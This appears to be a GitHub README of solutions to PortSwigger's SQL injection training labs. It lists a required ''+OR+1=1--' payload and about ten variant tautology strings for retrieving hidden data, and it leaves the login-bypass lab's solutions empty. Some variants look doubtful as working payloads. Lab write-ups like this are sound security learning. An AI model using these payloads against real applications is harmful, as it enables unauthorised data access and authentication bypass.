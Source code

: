 # SQL-injection
# Port Swigger SQL injection Lab Solutions <tag>

####Retrieving hidden data<tag>

[1.Lab: SQL injection vulnerability in WHERE clause allowing retrieval of hidden data](https://portswigger.net/web-security/sql-injection/lab-retrieve-hidden-data)


1. Solutions
   1. `'+OR+1=1--` -> Required
   >The server can also respond for the following
   1. `'OR+'1'='1--`
   1. `'OR+'1'='1'--`
   1. `'OR+'1'--`
   1. `'OR+true--`
   1. `'OR+'a'='a'--`
   1. `/OR+1=1--`
   1. `)'OR+1=1-- `
   1. `""OR+1=1--`
   1. `)*OR+1=1--`
   
####Subverting application logic<tag>

[2.Lab: SQL injection vulnerability allowing login bypass](https://portswigger.net/web-security/sql-injection/lab-login-bypass)

1. Solutions

  

